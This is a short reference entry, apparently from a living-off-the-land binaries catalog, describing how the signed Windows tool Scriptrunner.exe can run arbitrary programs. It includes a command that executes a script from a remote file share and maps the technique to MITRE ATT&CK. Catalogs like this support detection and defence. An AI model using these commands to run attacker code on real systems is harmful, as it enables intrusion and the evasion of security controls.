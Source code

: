 ## Scriptrunner.exe

* Functions: Execute

```
Scriptrunner.exe -appvscript calc.exe   

ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"   
```

Acknowledgements:
* Nick Tyrer - @NickTyrer

Code sample:
* 

Resources:
* https://twitter.com/KyleHanslovan/status/914800377580503040
* https://twitter.com/NickTyrer/status/914234924655312896
* https://github.com/MoooKitty/Code-Execution

Full path:
```
c:\windows\system32\scriptrunner.exe
c:\windows\sysWOW64\scriptrunner.exe
```

Notes:
 
MITRE ATT&CK:
* [Scripting](https://attack.mitre.org/wiki/Technique/T1064)
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
